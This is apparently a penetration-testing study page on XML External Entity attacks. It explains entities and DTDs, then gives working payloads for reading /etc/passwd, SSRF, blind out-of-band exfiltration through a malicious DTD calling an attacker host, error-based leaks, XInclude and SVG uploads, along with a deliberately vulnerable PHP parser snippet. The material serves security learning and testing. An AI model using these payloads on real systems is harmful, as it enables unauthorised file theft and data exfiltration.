


# XXE - XEE XML External Entity attacks

??? quote "Sources"
    - [HackTricks](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity).
    - Portsqigger.

## Basic concepts

### What it XML?

XML stands for "extensible markup language". XML is a language designed for storing and transporting data. Like HTML, XML uses a tree-like structure of tags and data. Unlike HTML, XML does not use predefined tags, and so tags can be given names that describe the data. 

### What are XML entities?

XML entities are a way of representing an item of data within an XML document, instead of using the data itself. Various entities are built in to the specification of the XML language. For example, the entities &lt; and &gt; represent the characters < and >. These are metacharacters used to denote XML tags, and so must generally be represented using their entities when they appear within data.

### What are XML elements?

Element type declarations set the rules for the type and number of elements that may appear in an XML document, what elements may appear inside each other, and what order they must appear in. For example:

```
<!ELEMENT root ANY> Means that any object could be inside the parent <root></root>

<!ELEMENT root EMPTY> Means that it should be empty <stockCheck></stockCheck>

<!ELEMENT root (name,password)> Declares that <root> can have the children <name> and <password>
```

### What is document type definition?

The XML document type definition (DTD) contains declarations that can define the structure of an XML document, the types of data values it can contain, and other items. The DTD is declared within the optional DOCTYPE element at the start of the XML document. The DTD can be fully self-contained within the document itself (known as an "internal DTD") or can be loaded from elsewhere (known as an "external DTD") or can be hybrid of the two.

### How XML custom entities work?

XML allows custom entities to be defined within the DTD. For example:

```
<!DOCTYPE foo [ <!ENTITY myentity "my entity value" > ]>
```

This definition means that any usage of the entity reference &myentity; within the XML document will be replaced with the defined value: "my entity value".

### What are XML external entities?

XML external entities are a type of custom entity whose definition is located outside of the DTD where they are declared. The declaration of an external entity uses the SYSTEM keyword and must specify a URL from which the value of the entity should be loaded. For example:

```
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com" > ]>
```

The URL can use the file:// protocol, and so external entities can be loaded from file. For example:

```
<!DOCTYPE nameThatYouWant [ <!ENTITY nameofEntity SYSTEM "file:///path/to/file" > ]>
<root>
    <name>&nameofEntity;</name>
    <password>1</password>
</root>

# nameThatyouWant: string with the name that you want
# nameofEntity: we will call the entity using this name. It
# <!ENTITY: There might be more than one entity defined
# SYSTEM: allow us to call the entity
# file:// -> To call an internal value. But instead of file we can call:
    # http://
    # ftp://
    # ssh://
    # php://
# &nameofEntity;  -> This is how you request the object
```

#### Classic XML External Entity

```
# Classic XXE
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]>
<name>&nameofEntity;</name>
```

#### Base-encoded XML External Entity
```
# Base encoded XXE
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=file:///etc/passwd" > ]>
<name>&nameofEntity;</name>
```

#### Blind XML External Entity - Out of Band 


```
# Blind XXE 1
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "file:///etc/passwd"> %xxe; ]>
```

```
# Blind XXE 2
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://malicious.com/exploit"> %xxe; ]>

	# http://malicious.com/exploit will contain another entity such as 
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "file:///etc/passwd"> %xxe; ]>
```


### But why external entities are accepted

This is a snipped of a PHP code that accept extenal DTDs

```php
<?php

libxml_disable_entity_loader (false);
// libxml_disable_entity_loader (true);

$xmlfile = file_get_contents('php://input');
$dom = new DOMDocument();
$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
$info = simplexml_import_dom($dom);
$name = $info->name;
$password = $info->password;

echo "Sorrym this $name is not available";
?>
```

Allowing external DTDs is done in line:

```
libxml_disable_entity_loader (false);
```


## Main attacks

### New Entity test

In this attack I'm going to test if a simple new ENTITY declaration is working:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY toreplace "3"> ]>
<stockCheck>
    <productId>&toreplace;</productId>
    <storeId>1</storeId>
</stockCheck>
```

### 1. Retrieve files

Modify the submitted XML in two ways:

- Introduce (or edit) a `DOCTYPE` element that defines an external entity containing the path to the file.
- Edit a data value in the XML that is returned in the application's response, to make use of the defined external entity.


In a windows system, we may use c:/windows/system32/drivers/etc/hosts:

```
POST /process.php HTTP/1.1
Host: 10.129.95.192
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/xml
Content-Length: 192
Origin: http://10.129.95.192
Connection: close
Referer: http://10.129.95.192/services.php
Cookie: PHPSESSID=1gjqt353d2lm5222nl3ufqru10

<?xml version = "1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/windows/system32/drivers/etc/hosts'>]>
<order>
    <quantity>2</quantity>
    <item>&test;</item>
    <address>1</address>
</order>
```

In a Linux server go for 

```
# example 1
<?xml version = "1.0"?><!DOCTYPE foo [<!ENTITY example1 SYSTEM "/etc/passwd"> ]>
<order>
    <quantity>2</quantity>
    <item>&example1;</item>
    <address>1</address>
</order>


# example 2
<?xml version = "1.0"?><!DOCTYPE foo [ <!ENTITY example2 SYSTEM "file:///etc/passwd" > ]>
<order>
    <quantity>2</quantity>
    <item>&example2;</item>
    <address>1</address>
</order>
```


**Encoding techniques**

```
# Base encoded XXE
<?xml version = "1.0"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=file:///etc/passwd" > ]>
<name>&nameofEntity;</name>
```

This filter return the file base64-encoded to avoid data loss and truncate.

### 2. Chaining XXE to SSRF attacks

To exploit an XXE vulnerability to perform an SSRF attack, you need to define an external XML entity using the URL that you want to target, and use the defined entity within a data value. 

```
<?xml version = "1.0"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

You would then make use of the defined entity in a data value within the XML.

[See this lab with an example of exploitation](../burpsuite/burpsuite-xxe.md#exploiting-xxe-to-perform-ssrf-attacks)


### 3. Blind XXE vulnerabilities

Sometimes the application does not return the values of any defined external entities in its responses, and so direct retrieval of server-side files is not possible.

Blind XXE requires the use of out-of-band techniques, and call the parameter (for example xxe) just after the ENTITY definition. Therefore, XML parameter entities are a special kind of XML entity which can only be referenced elsewhere within the DTD.

```
<?xml version = "1.0"?><!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://internal.vulnerable-website.com/"> %xxe;]>
```

You don't need to make use of the defined entity in a data value within the XML as the `%xxe;` is already calling the entity.


### 4. Blind XXE with data exfiltration out-of-band (Blind XXE with OOB data exfiltration)

**1.** Create a malicious.dtd file:

```
<!ENTITY % file SYSTEM "file:///etc/passwd"> 
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>"> %eval; %exfiltrate;
```
Basically, malicious.dtd retrieves /etc/passwd from the instance in which is executed. 

**2.** Serve our malicious.dtd from http://atacker.com/malicious.dtd.

**3.** Submit a payload to the victim via XXE (blind) with a xml parameter entity.

```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://attacker.com/malicious.dtd"> %xxe;]>
```

This will cause the XML parser to fetch the external DTD from the attacker's server and interpret it inline.

### 5. Blind XXE to retrieve data via error messages

An alternative approach to exploiting blind XXE is to trigger an XML parsing error where the error message contains the sensitive data that you wish to retrieve. 

- Trigger an XML parsing error message containing the contents of the `/etc/passwd` file using a malicious external DTD as follows:

```
<!ENTITY % file SYSTEM "file:///etc/passwd"> <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>"> %eval; %error;

```

Invoking the malicious external DTD may result in an error message like the following:

```
java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin
```


### 6. Blind XXE by repurposing a local DTD

If a document's DTD uses a hybrid of internal and external DTD declarations, then the internal DTD can redefine entities that are declared in the external DTD. When this happens, the restriction on using an XML parameter entity within the definition of another parameter entity is relaxed.

 Essentially, the attack involves invoking a DTD file that happens to exist on the local filesystem and repurposing it to redefine an existing entity in a way that triggers a parsing error containing sensitive data.

For example, suppose there is a DTD file on the server filesystem at the location `/usr/local/app/schema.dtd`, and this DTD file defines an entity called `custom_entity`. An attacker can trigger an XML parsing error message containing the contents of the `/etc/passwd` file by submitting a hybrid DTD like the following:

```
<!DOCTYPE foo [ 
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd"> 
<!ENTITY % custom_entity ' 
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd"> <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>"> &#x25;eval; &#x25;error; '> 
%local_dtd; 
]>
```

### 7. XInclude attack

In the following scenario, we cannot implement a classic/blind/oob XXE attack because we don't control the entire XML document and so we cannot define the `DOCTYPE` element. 



We can bypass this client side verification with XInclude. **XInclude** is a part of the XML specification that allows an XML document to be built from sub-documents. We can place an `XInclude` attack within any data value in an XML document, so the attack can be performed in situations _**where you only control a single item of data that is placed into a server-side XML document**_. 

For instance:

```
<d0p xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></d0p>
```




### 8. XXE via file upload


In a file upload feature,  if the application expects to receive a format like `.png` or `.jpeg`, then the image processing lib is likely to accept `.svg` too.

Our XXE payload could be:

```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```


## Interesting files

[Interesting Windows files](https://raw.githubusercontent.com/amandaguglieri/dictionaries/main/windows/interesting-files.md)
[Interesting Linux files](https://raw.githubusercontent.com/amandaguglieri/dictionaries/main/Linux/interesting-files.md)
